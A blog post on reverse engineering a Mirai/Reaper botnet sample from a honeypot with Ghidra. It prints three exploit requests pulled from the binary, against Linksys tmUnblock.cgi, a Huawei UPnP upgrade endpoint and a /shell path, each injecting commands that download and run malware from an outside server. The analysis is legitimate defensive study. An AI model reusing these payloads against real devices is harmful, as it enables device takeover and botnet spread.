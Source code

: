 ```yaml
---
layout: post
title:  "Reverse Engineering Mirai/Reaper Malware"
date:   2022-07-20 18:25:33 +0100
category: malware
tags: malware reverse-engineering honey-pot ghidra
---
```


In my previous post, I showed how I set up a honey pot to capture HTTP requests coming to my IP address. Some of the requests where bots attempting to exploit vulnerabilities in order to gain access to devices and services, one of these requests attempted to inject shell commands to download and run a malware.

I download `reap.mpsl` using [curl](http://www.curl.se) so we can have a close look at what the attackers are trying to infect the honey pot with.

Uploading `reap.mpsl` to virustotal we can see that it has been [registered](https://www.virustotal.com/gui/file/5b8900204cb3e3608d48a6c5cd77c58ebf43246dece0c6edf662dfa65ad8348b) as a Mirai/Reaper Malware by several antivirus application, first submitted to virustotal on 2022-06-28

### Analysing with Ghidra
---
By using [Ghidra](https://ghidra-sre.org/) we can disassemble and analyse the malware executable and see if it will reveal any secrets. Looking at Ghidras initial analysis we can see it is a 32bit MIPS executable 

[![About Reaper](/assets/img/reveng-reaper/about-reaper.png)](/assets/img/reveng-reaper/about-reaper.png)

#### Strings
---
The first thing we are going to look at are the text strings that are compiled into the executable, plain text strings give us a easy look into what the exe is doing and what resources it may attempt to use.\
To do this in click `Search -> For Strings...` in the top menu bar, Ghidra will then search the exe for strings and dispaly them.\

[![Reaper Strings](/assets/img/reveng-reaper/strings.png)](/assets/img/reveng-reaper/strings.png)\

Straight away we can see a string that was probably used to attack our honey pot, the highlighted string in the list starts with `POST /tmUnblock.cgi` looking at the my previous post we can see that `/tmUnblock.cgi` was the endpoint the malware was attempt to exploit. Directly below this string we can see what looks like another `POST` request, this time to `/ctrlt/DeviceUpgrade_1` and further down there is a third that looks like a `GET` request to `/shell` with shell commands.\
Next I will extract the strings that look like HTTP attacks so we can have a closer look at what they are trying to do. 

##### Attack 1 (hit our honey pot)
---
Extracting the first suspicious string from Ghidra we can see it contains the following:\


>"POST /tmUnblock.cgi HTTP/1.1\r\nHost: 91.218.67.131:80\r\nConnection: keep-alive\r\nAccept-Encoding: gzip, deflate\r\nAccept: /\r\nUser-Agent: python-requests/2.20.0\r\nContent-Length: 227\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nttcp_ip=-h+%60cd+%2Ftmp%3B+rm+-rf+mpsl%3B+wget+http%3A%2F%2F91.218.67.131%2Freaper%2Freap.mpsl%3B+chmod+777+reap.mpsl%3B+.%2Freap.mpsl+Reaper.linksys%60&action=&ttcp_num=2&ttcp_size=2&submit_button=&change_action=&commit=0&StartEPI=1"

Tiding it up to make it easier to read:

>"POST /tmUnblock.cgi HTTP/1.1  Host: 91.218.67.131:80  Connection: keep-alive  Accept-Encoding: gzip, deflate  Accept: /  User-Agent: python-requests/2.20.0  Content-Length: 227  Content-Type: application/x-www-form-urlencoded ttcp_ip=-h+`cd+/tmp;+rm+-rf+mpsl;+wget+http://91.218.67.131/reaper/reap.mpsl;+chmod+777+reap.mpsl;+./reap.mpsl+Reaper.linksys`&action=&ttcp_num=2&ttcp_size=2&submit_button=&change_action=&commit=0&StartEPI=1"

We can see that this string contains exactly what was picked up with the honey pot from one of the suspicious request, this is a good indication that it was this Malware exe that made the request. (possibly running on someones infected device) 


##### Attack 2 (POST to /ctrlt/DeviceUpgrade_1)
---
Extracting the second suspicious string we see it contains the following:

>POST /ctrlt/DeviceUpgrade_1 HTTP/1.1  Content-Length: 430  Connection: keep-alive  Accept: */*  Authorization: Digest username=\"dslf-config\", realm=\"HuaweiHomeGateway\", nonce=\"88645cefb1f9ede0e336e3569d75ee30\", uri=\"/ctrlt/DeviceUpgrade_1\", response=\"3612f843a42db38f48f59d2a3597e19c\", algorithm=\"MD5\", qop=\"auth\", nc=00000001, cnonce=\"248d1a2560100669\"    <?xml version=\"1.0\" ?><s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\"><s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\"><NewStatusURL>$(busybox wget -g 91.218.67.131 -l /tmp/bigH -r /reaper/reap.mips;chmod 777 /tmp/bigH;/tmp/bigH huawei.rep.mips;rm -rf /tmp/bigH)</NewStatusURL><NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL></u:Upgrade></s:Body></s:Envelope>

This attack appears to contain a [Digest access authentication](https://en.wikipedia.org/wiki/Digest_access_authentication) header using the username "dslf-config" this suggests that the Malware is attempting to exploit default username/password that could be on the device.

The body of this attack contains the following XML payload: 
{% highlight XML %}
<?xml version=\"1.0\" ?>
<s:Envelope
  xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
  <s:Body>
    <u:Upgrade
      xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">
      <NewStatusURL>$(busybox wget -g 91.218.67.131 -l /tmp/bigH -r /reaper/reap.mips;chmod 777 /tmp/bigH;/tmp/bigH huawei.rep.mips;rm -rf /tmp/bigH)</NewStatusURL>
      <NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>
    </u:Upgrade>
  </s:Body>
</s:Envelope>
{% endhighlight %}

The XML data is likely used in a upgrade process which will cause the device to download and run ``reap.mips`` 


##### Attack 3 (GET to /shell)
---
Extracting the third suspicious string we see it contains the following:
>GET /shell?cd+/tmp;rm+-rf+*;wget+ 91.218.67.131/reaper/reap.arm4;chmod+777+/tmp/reap.arm4;sh+/tmp/reap.arm4 HTTP/1.1  User-Agent: Hello, world  Host: 127.0.0.1:80  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8  Connection: keep-alive

This attack is performing a [HTTP GET](https://reqbin.com/Article/HttpGet) command to ``/shell`` with the following parameter 
``cd+/tmp;rm+-rf+*;wget+ 91.218.67.131/reaper/reap.arm4;chmod+777+/tmp/reap.arm4;sh+/tmp/reap.arm4``
Again, this command will download and run ``reap.arm4``, which is the same malware as seen before but complied to run on arm4 processors.
